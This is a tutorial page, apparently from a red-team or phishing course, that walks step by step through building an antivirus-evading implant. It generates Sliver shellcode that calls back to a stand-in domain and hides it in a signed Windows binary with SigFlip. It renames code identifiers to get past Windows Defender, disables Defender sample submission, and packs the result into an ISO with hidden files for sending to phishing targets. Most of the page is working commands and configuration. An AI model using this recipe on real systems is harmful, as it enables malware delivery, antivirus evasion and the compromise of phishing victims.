 +++
title = "Better Payload Generation"
weight = 100
+++

### Better implants (frostbyte bypass windows defender)

Instead of generating a executable. We can generate shellcode. We can then use something like [https://github.com/pwn1sher/frostbyte](https://github.com/pwn1sher/frostbyte) to load that shellcode into memory and execute it.

### Get frostbyte

Lets get download the [frostbyte zip](https://github.com/pwn1sher/frostbyte/archive/refs/heads/main.zip) from Github.

### Generate shellcode

In a sliver shell we need to run the following to generate some shellcode to be used later. We'll use `test.example` as the callback domain, we will add an entry to the Windows hosts file.

```bash
generate --mtls test.example -f shellcode --save implants/shellcodex64.bin
```

Copy the shellcode to your `Desktop\frostbyte-main` folder on the windows machine.

### Setup Files for New Payload

```bat
cd Desktop\frostbyte-main
mkdir AuthHelper
mkdir AuthHelper\dist\
copy Update.exe.config AuthHelper\dist\AuthHelper.exe.config
copy test.cs AuthHelper\AuthHelper.cs
cd AuthHelper
```

### Run SigFlip

Now that we have things setup we can run `SigFlip` to encode our shellcode into the `CasPol.exe` and save it as `AuthHelper.exe` in our newly created `AuthHelper` folder.

```bat
..\SigFlip.exe -i "..\CasPol.exe" "..\shellcodex64.bin" ".\dist\AuthHelper.exe" "PYLD4ME"
```

Pay attention to the output. I had to make note of the padding value and add it to two lines in the `.cs` file

### Update `dist\AuthHelper.exe.config`

- We need to replace `test` with our executabe name our executable name without the extenaion (`AuthHelper`). 
- Next we need to update the value of `appDomainManagerType` to be something else `NewAuthHelper`.
- Finally lets make `privatePath` a relative path `.`

```xml
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <probing privatePath="."/>
      </assemblyBinding> 
	  <appDomainManagerAssembly value="AuthHelper, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null" />  
	  <appDomainManagerType value="NewAuthHelper" />  
   </runtime>
</configuration>
```

### Update AuthHelper\AuthHelper.cs

Now we need to update the `AuthHelper.cs` file.

- remove top three lines prepended with `#`
- replace `Z45UDG` with `NewAuthHelper`
- comment out logging on lines `154` and `161`
- replace `S3cretK3y` with `PYLD4ME`
- change `Z:\\zloader\\update.exe` to `AuthHelper.exe`
- replace all instances of `shellcode` with `certData`
- replace all instances of `ClassExample` with `AuthHelper`
- replace all instances of `Executing Beacon!` with `Begin Execution!`
- replace all instances of `Decrypt` with `CheckAuth`
- replace all instances of `ExecShellcode` with `Authorize`
- Update `_peBlob.Length+2` to be `_peBlob.Length+10`


```
C:\windows\Microsoft.NET\Framework\v3.5\csc.exe /target:library /out:dist\AuthHelper.dll AuthHelper.cs
```

### Prepare for Testing

We need to modify `C:\Windows\System32\drivers\etc\hosts` and add an entry for `test.example`.

- Run notepad as administrator
![Run Notepad as Administrator](/static/how-to-phishing/notepad-runas.png)

- Ensure you have show all files selected 
![Notepad Show All Files](/static/how-to-phishing/notepad-open-allfiles.png)

- Browse to `C:\Windows\System32\drivers\etc\`
- Add en antry for `test.example` to go to your Linux box runnning `sliver`.
![Windows Hosts File Entry](/static/how-to-phishing/windows-hosts-entry.png)

We should also set defender to not send off samples.

- Open Windows Defender
![Defender Tray Entry](/static/how-to-phishing/defender-tray.png)

- Select **Virus & threat protection** from the left side navigation.
- Click **Manage settings**
![Defender Settings](/static/how-to-phishing/defender-settings.png)

- Turn off sample submission
![Defender Sample Submission](/static/how-to-phishing/defender-sample-submission.png)

### Testing

Now we should be able to open out `dist` folder and run the `AuthHelper.exe`.
![Better Payload Testing](/static/how-to-phishing/better-payload-testing.png)

We should be see a new session popup in Sliver
![Better Payload Testing Sliver](/static/how-to-phishing/better-payload-testing-sliver.png)

Now would be a good time to fine tune our code, remove debugging messages, or add a nice special message that says "Good job! Now your more secure!!". 

### PackMyPayload

Now that we have a nice payload, lets pack it up so we can send it to our phishing targets. We'll use [https://github.com/mgeeky/PackMyPayload](https://github.com/mgeeky/PackMyPayload)


```bash
sudo apt install python3-pip
cd ~/opt
git clone https://github.com/mgeeky/PackMyPayload.git
cd PackMyPayload
python3 -m pip install -r requirements.txt
```

Copy dist folder to your linux VM. I put it in `~/Desktop/op/payloads/AuthHelper/`.

```bash
cd ~/Desktop/op/payloads/AuthHelper
python3 ~/opt/PackMyPayload/PackMyPayload.py --hide AuthHelper.dll,AuthHelper.exe.config dist AuthHelper.iso -v
```

Now we should have a nice `.iso` file we can send users.
![PackMyPayload](/static/how-to-phishing/packmypayload.png)

### Testing... Again

Now we need to test again to make sure everything is working as designed. Copy the `AuthHelper.iso` to the windows machine. We'd hate for users to receive this message instead of us getting a new session:

![Error](/static/how-to-phishing/iso-mount-error.png)
